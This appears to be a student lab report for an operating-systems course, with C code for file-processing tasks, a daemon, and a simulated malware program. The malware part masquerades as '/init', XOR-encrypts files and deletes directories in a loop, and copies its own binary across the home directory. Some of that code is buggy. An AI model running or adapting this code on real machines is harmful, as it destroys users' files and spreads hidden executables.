# Sisop-2-2025-IT10

## Member

| No  | Nama                   | NRP        |
| --- | ---------------------- | ---------- |
| 1   | Ardhi Putra Pradana    | 5027241022 |
| 2   | Aslam Ahmad Usman      | 5027241074 |
| 3   | Kanafira Vanesha Putri | 5027241010 |

## Reporting

### Soal 1

#### Penjelasan
A. Downloading the Clues
B. Filtering the Files
C. Combine the File Content
D. Decode the file
E. Password Check

##### Help Command
```c
./action              
./action -m Filter    
./action -m Combine   
./action -m Decode    
./action -m Check 
```

A.
```c
void download_and_unzip() {
    struct stat st = {0};
    if (stat("Clues", &st) == 0 && S_ISDIR(st.st_mode)) return;

    char *wget_args[] = {"wget", "-q", "-O", ZIP_FILE, ZIP_URL, NULL};
    if (!run_command("wget", wget_args)) return;

    char *unzip_args[] = {"unzip", "-q", ZIP_FILE, NULL};
    if (!run_command("unzip", unzip_args)) return;

    remove(ZIP_FILE);
}
```

B.
```c
void filter_files() {
    DIR *dir;
    struct dirent *entry;

    mkdir("Filtered", 0755);
    const char *subdirs[] = {"Clues/ClueA", "Clues/ClueB", "Clues/ClueC", "Clues/ClueD"};

    for (int i = 0; i < 4; ++i) {
        dir = opendir(subdirs[i]);
        if (!dir) continue;

        char path[256];
        while ((entry = readdir(dir))) {
            if (is_valid_file(entry->d_name)) {
                snprintf(path, sizeof(path), "%s/%s", subdirs[i], entry->d_name);
                char dest[256];
                snprintf(dest, sizeof(dest), "Filtered/%s", entry->d_name);
                rename(path, dest);
            } else if (entry->d_type == DT_REG) {
                snprintf(path, sizeof(path), "%s/%s", subdirs[i], entry->d_name);
                remove(path);
            }
        }
        closedir(dir);
    }
}

int cmp(const void *a, const void *b) {
    return strcmp(*(const char **)a, *(const char **)b);
}
```

C.
```c
void combine_files() {
    DIR *dir = opendir("Filtered");
    struct dirent *entry;
    char *numbers[100], *letters[100];
    int n_count = 0, l_count = 0;

    if (!dir) {
        fprintf(stderr, "Folder Filtered tidak ditemukan.\n");
        return;
    }

    while ((entry = readdir(dir))) {
        if (is_valid_file(entry->d_name)) {
            if (isdigit(entry->d_name[0]))
                numbers[n_count++] = strdup(entry->d_name);
            else if (isalpha(entry->d_name[0]))
                letters[l_count++] = strdup(entry->d_name);
        }
    }
    closedir(dir);

    qsort(numbers, n_count, sizeof(char *), cmp);
    qsort(letters, l_count, sizeof(char *), cmp);

    FILE *out = fopen("Combined.txt", "w");
    if (!out) {
        perror("Gagal membuat Combined.txt");
        return;
    }

    int ni = 0, li = 0;
    while (ni < n_count || li < l_count) {
        if (ni < n_count) {
            char path[256];
            snprintf(path, sizeof(path), "Filtered/%s", numbers[ni++]);
            FILE *f = fopen(path, "r");
            if (f) {
                int c;
                while ((c = fgetc(f)) != EOF) fputc(c, out);
                fclose(f);
            }
            remove(path);
        }
        if (li < l_count) {
            char path[256];
            snprintf(path, sizeof(path), "Filtered/%s", letters[li++]);
            FILE *f = fopen(path, "r");
            if (f) {
                int c;
                while ((c = fgetc(f)) != EOF) fputc(c, out);
                fclose(f);
            }
            remove(path);
        }
    }

    fclose(out);
    printf("Isi file telah digabung ke Combined.txt\n");

    for (int i = 0; i < n_count; i++) free(numbers[i]);
    for (int i = 0; i < l_count; i++) free(letters[i]);
}
```

D.
```c
void rot13_decode() {
    FILE *in = fopen("Combined.txt", "r");
    FILE *out = fopen("Decoded.txt", "w");

    int c;
    while ((c = fgetc(in)) != EOF) {
        if (isalpha(c)) {
            if ((c >= 'a' && c <= 'm') || (c >= 'A' && c <= 'M'))
                c += 13;
            else
                c -= 13;
        }
        fputc(c, out);
    }

    fclose(in);
    fclose(out);
}
```

E.
```c
void password_check() {
    FILE *file = fopen("Decoded.txt", "r");
    if (!file) {
        fprintf(stderr, "Decoded.txt tidak ditemukan.\n");
        return;
    }

    char correct_pass[256];
    if (!fgets(correct_pass, sizeof(correct_pass), file)) {
        fclose(file);
        fprintf(stderr, "Gagal membaca password.\n");
        return;
    }
    fclose(file);
    correct_pass[strcspn(correct_pass, "\n")] = '\0';

    char input[256];
    printf("Masukkan password: ");
    fgets(input, sizeof(input), stdin);
    input[strcspn(input, "\n")] = '\0';

    if (strcmp(correct_pass, input) == 0) {
        printf("Password benar! Kamu berhasil membuka pintu Cyrus!\n");
    } else {
        printf("Password salah. Coba lagi!\n");
    }
}
```

#### Output
1. Melakukan inisialisi untuk mendownload ketika tidak ada folder **Clues**
2. Melakukan filterisasi file Valid ke folder Filtered
3. Menggabungkan isi file ke Combined.txt
4. Melakukan Decode File Combined.txt (ROT13) lalu dimasukkan ke Decoded.txt
5. Melakukan Password Checking

### Soal 2

#### Penjelasan


```c
void daemonize(char *argv0, char *daemonName) {
    prctl(PR_SET_NAME, daemonName, 0, 0, 0);
    strncpy(argv0, daemonName, 512);

    pid_t pid = fork();
    int status;

    if (pid < 0) exit(1);
    if (pid > 0) exit(0);
    if (setsid() < 0) exit(1);

    umask(0);
    for (int x = sysconf(_SC_OPEN_MAX); x > 0; x--) close(x);
    char message[256];
    snprintf(message, sizeof(message), "Successfully started decryption process with PID %d", getpid());
    logger(message);
}

void spawn_process(char *argv0, char *processName, int (*callback)(char *argv0)) {
    pid_t pid = fork();
    if (pid < 0 || pid > 0) return;

    prctl(PR_SET_PDEATHSIG, SIGTERM);
    if (argv0 != NULL && processName != NULL) {
        prctl(PR_SET_NAME, processName, 0, 0, 0);
        strncpy(argv0, processName, 128);
    }
    exit(callback(argv0));
}
```

Point **a**

```c
int download_cb() {
    char *wget_args[] = {
        "wget",
        "-q",
        "-O",
        "starter_kit.zip",
        "--no-check-certificate",
        "https://drive.google.com/uc?export=download&id=1_5GxIGfQr3mNKuavJbte_AoRkEQLXSKS",
        NULL};
    execvp("wget", wget_args);
    return 1;
}
int extract_cb() {
    char *unzip_args[] = {
        "unzip",
        "-q",
        "starter_kit.zip",
        "-d",
        "starter_kit",
        NULL};
    execvp("unzip", unzip_args);
    return 1;
}
void download_extract_zip() {
    struct stat st;
    if (stat("starter_kit", &st) == 0 && S_ISDIR(st.st_mode)) return;
    printf("Initializing program, downloading and extract zip...\n");

    spawn_process(NULL, NULL, download_cb);

    int status;
    wait(&status);
    spawn_process(NULL, NULL, extract_cb);
    wait(&status);
    remove("starter_kit.zip");
}
```

Point **b**

```c
int decrypt_filename() {
    char *foldername = "quarantine";
    struct stat st;
    if (stat(foldername, &st) == -1) {
        if (mkdir(foldername, 0700) == -1) return 1;
    }

    DIR *dir = opendir(foldername);
    if (dir == NULL) return 1;

    struct dirent *entry;

    while ((entry = readdir(dir)) != NULL) {
        if (entry->d_name[0] == '.') continue;
        if (entry->d_type == DT_DIR) continue;
        if (strrchr(entry->d_name, '.')) continue;
        if (!is_base64(entry->d_name)) continue;
        char *decoded_name = base64_decode(entry->d_name);

        char new_name[PATH_MAX];
        char old_name[PATH_MAX];
        snprintf(old_name, sizeof(old_name), "%s/%s", foldername, entry->d_name);
        snprintf(new_name, sizeof(new_name), "%s/%s", foldername, decoded_name);

        rename(old_name, new_name);
        free(decoded_name);
    }

    closedir(dir);
    return 0;
}
```

Point **c**

```c
int move_files(char *old_folder, char *new_folder) {
    DIR *dir;
    struct dirent *entry;
    struct stat st;
    char old_path[PATH_MAX], new_path[PATH_MAX];

    dir = opendir(old_folder);
    if (!dir) return -1;

    if (stat(new_folder, &st) == -1) {
        if (mkdir(new_folder, 0755) == -1) {
            closedir(dir);
            return -1;
        }
    }

    while ((entry = readdir(dir)) != NULL) {
        if (entry->d_name[0] == '.') continue;
        if (entry->d_type == DT_DIR) continue;
        snprintf(old_path, sizeof(old_path), "%s/%s", old_folder, entry->d_name);
        snprintf(new_path, sizeof(new_path), "%s/%s", new_folder, entry->d_name);
        rename(old_path, new_path);

        char message[PATH_MAX];
        snprintf(message, sizeof(message), "%s - Successfully moved to %s directory.", entry->d_name, new_folder);
        logger(message);
    }

    closedir(dir);
    return 0;
}
```

Point **d**

```c

int delfiles(char *foldername) {
    DIR *dir;
    struct dirent *entry;
    char path[PATH_MAX];

    dir = opendir(foldername);
    if (!dir) return -1;

    while ((entry = readdir(dir)) != NULL) {
        if (entry->d_name[0] == '.') continue;
        snprintf(path, sizeof(path), "%s/%s", foldername, entry->d_name);
        remove(path);

        char message[PATH_MAX];
        snprintf(message, sizeof(message), "%s - Successfully deleted.", entry->d_name);
        logger(message);
    }

    closedir(dir);
    return 0;
}
```

Point **f**

```c
int shutdown(char *processName) {
    char command[256];
    snprintf(command, sizeof(command), "pidof %s", processName);
    FILE *fp = popen(command, "r");
    if (fp == NULL) return 1;

    pid_t pid;
    if (fscanf(fp, "%d", &pid) == 1) {
        kill(pid, SIGTERM);

        char message[256];
        snprintf(message, sizeof(message), "Successfully shut off decryption process with PID %d.", pid);
        logger(message);
    }
    pclose(fp);

    return 0;
}
```

Point **g**

```c
void logger(char *message) {
    FILE *fp = fopen("activity.log", "a");
    if (fp) {
        time_t now = time(NULL);
        struct tm *t = localtime(&now);
        char time_str[24];
        strftime(time_str, sizeof(time_str), "[%d-%m-%Y] [%H:%M:%S]", t);
        fprintf(fp, "%s - %s\n", time_str, message);
        fclose(fp);
    }
}
```

#### Output

1. Melakukan inisialisi untuk mendownload ketika tidak ada folder **starter_kit** dan akan menampilkan help command




2. Melakukan start decrypting




3. Memindahkan file dari **starter_kit** ke **quarantine**




3. Memindahkan file dari **quarantine** ke **starter_kit**




4. Menghapus semua file dari folder **quarantine**




5. Shutdown process




#### Kendala

Tidak ada kendala

### Soal 3

#### Penjelasan

```c
void spawn_process(char *argv0, char processName[], int (*callback)(char *argv0, char *args[]), char *args[]) {
    pid_t pid = fork();
    if (pid < 0 || pid > 0) return;

    prctl(PR_SET_PDEATHSIG, SIGTERM);
    prctl(PR_SET_NAME, processName, 0, 0, 0);
    strncpy(argv0, processName, 128);
    exit(callback(argv0, args));
}
```

Point **a**

```c
void daemonize(char *argv0) {
    prctl(PR_SET_NAME, "/init", 0, 0, 0);
    strncpy(argv0, "/init", 128);

    pid_t pid = fork();
    int status;

    if (pid < 0) exit(1);
    if (pid > 0) exit(0);
    if (setsid() < 0) exit(1);

    umask(0);
    for (int x = sysconf(_SC_OPEN_MAX); x > 0; x--) close(x);
}
```

Point **b**

```c
int xor_file(const char *filename, time_t timestamp) {
    FILE *file = NULL;
    unsigned char *file_buffer = NULL, *key = NULL;
    size_t key_length, file_size, i;
    int ret = 1;

    key = malloc(32);
    if (!key) goto cleanup;
    snprintf((char *)key, 32, "%ld", timestamp);
    key_length = strlen((char *)key);

    file = fopen(filename, "rb+");
    if (!file) goto cleanup;

    fseek(file, 0, SEEK_END);
    file_size = ftell(file);
    rewind(file);

    file_buffer = malloc(file_size);
    if (!file_buffer) goto cleanup;

    if (fread(file_buffer, 1, file_size, file) != file_size) goto cleanup;

    for (i = 0; i < file_size; i++) file_buffer[i] ^= key[i % key_length];

    rewind(file);
    if (fwrite(file_buffer, 1, file_size, file) != file_size) goto cleanup;
    ret = 0;

cleanup:
    if (file) fclose(file);
    free(file_buffer);

    if (ret != 0) {
        free(key);
        return 1;
    }

    return 0;
}

int wannacryptor() {
    while (1) {
        DIR *dir = opendir(".");
        if (!dir) return 1;

        time_t timestamp = time(NULL);
        struct dirent *entry;

        while ((entry = readdir(dir)) != NULL) {
            if (entry->d_name[0] == '.' || entry->d_name == "runme") continue;
            if (entry->d_type == DT_REG) xor_file(entry->d_name, timestamp);
            if (entry->d_type == DT_DIR) {
                char zipname[PATH_MAX];
                snprintf(zipname, sizeof(zipname), "%s.zip", entry->d_name);
                pid_t pid = fork();

                if (pid < 0) continue;

                if (pid == 0) {
                    char *args[] = {
                        "zip",
                        "-qr",
                        zipname,
                        entry->d_name,
                        NULL};
                    execvp("/bin/zip", args);
                    _exit(1);
                } else {
                    int status;
                    waitpid(pid, &status, 0);
                    xor_file(zipname, timestamp);
                    pid_t rm_pid = fork();
                    if (rm_pid < 0) continue;
                    if (rm_pid == 0) {
                        char *args[] = {
                            "rm",
                            "-rf",
                            entry->d_name,
                            NULL};
                        execvp("/bin/rm", args);
                        _exit(1);
                    } else {
                        waitpid(rm_pid, &status, 0);
                    }
                }
            }
        }

        closedir(dir);
        sleep(30);
    }
    return 0;
}
```

Point **c - d**

```c
int cloneFile(char *baseDirpath, char *filename, FILE *file) {
    DIR *dir = opendir(baseDirpath);
    char path[PATH_MAX];

    if (!dir) return 1;

    snprintf(path, sizeof(path), "%s/%s", baseDirpath, filename);
    FILE *dest = fopen(path, "wb");
    if (!file || !dest) {
        closedir(dir);
        return 1;
    }
    char buffer[1024];
    size_t bytes;
    while ((bytes = fread(buffer, 1, sizeof(buffer), file)) > 0) {
        fwrite(buffer, 1, bytes, dest);
    }
    fclose(dest);
    chmod(path, S_IRUSR | S_IWUSR | S_IXUSR | S_IRGRP | S_IXGRP | S_IROTH | S_IXOTH);

    struct dirent *entry;
    char newpath[PATH_MAX];
    while ((entry = readdir(dir)) != NULL) {
        if (entry->d_name[0] == '.') continue;
        if (entry->d_type == DT_REG) continue;
        if (entry->d_type == DT_DIR) {
            snprintf(newpath, sizeof(newpath), "%s/%s", baseDirpath, entry->d_name);
            cloneFile(newpath, filename, file);
        }
    }

    closedir(dir);
    return 0;
}

int trojan() {
    char self[1024];
    ssize_t len = readlink("/proc/self/exe", self, sizeof(self) - 1);
    if (len == -1) return 1;
    self[len] = '\0';

    char *filename = basename(self);
    char *home = getenv("HOME");
    if (!home) {
        struct passwd *pw = getpwuid(getuid());
        if (pw) {
            home = pw->pw_dir;
        }
    }

    FILE *fp = fopen(self, "rb");
    if (!fp) {
        fclose(fp);
        return 1;
    };

    while (1) {
        cloneFile(home, filename, fp);
        sleep(30);
    }

    fclose(fp);
    return 0;
}
```

Point **e - h**

```c
int mining(char *argv0, char *args[]) {
    while (1) {
        srand(time(NULL) + getpid());
        int sleep_time = rand() % 28 + 3;

        char random_hex[65];
        for (int i = 0; i < 64; i++) {
            int random_char = rand() % 16;
            if (random_char < 10) {
                random_hex[i] = '0' + random_char;
            } else {
                random_hex[i] = 'a' + (random_char - 10);
            }
        }
        random_hex[64] = '\0';

        time_t now = time(NULL);
        struct tm *tm_info = localtime(&now);
        char datetime[32];
        strftime(datetime, sizeof(datetime), "%Y-%m-%d %H:%M:%S", tm_info);

        FILE *log = fopen("/tmp/.miner.log", "a");
        if (log) {
            fprintf(log, "[%s][%s] %s\n", datetime, args[0], random_hex);
            fclose(log);
        }

        sleep(sleep_time);
    }
    return 0;
}

int rodok(char *argv0, char *args[]) {
    int MAX_MINER = 10;
    pid_t pids[MAX_MINER];
    int status;

    char miner_name[128];
    char log_miner_name[64];
    for (int i = 1; i <= MAX_MINER; i++) {
        snprintf(miner_name, sizeof(miner_name), "mine-crafter-%d", i);
        snprintf(log_miner_name, sizeof(log_miner_name), "Miner %d", i);

        char *values[1] = {log_miner_name};
        spawn_process(argv0, miner_name, mining, values);
    }

    for (int i = 0; i < MAX_MINER; i++) wait(&status);
    return 0;
}
```

#### Output




1. Enkripsi file (zip mode)




2. Melakukan clone binary nya sendiri

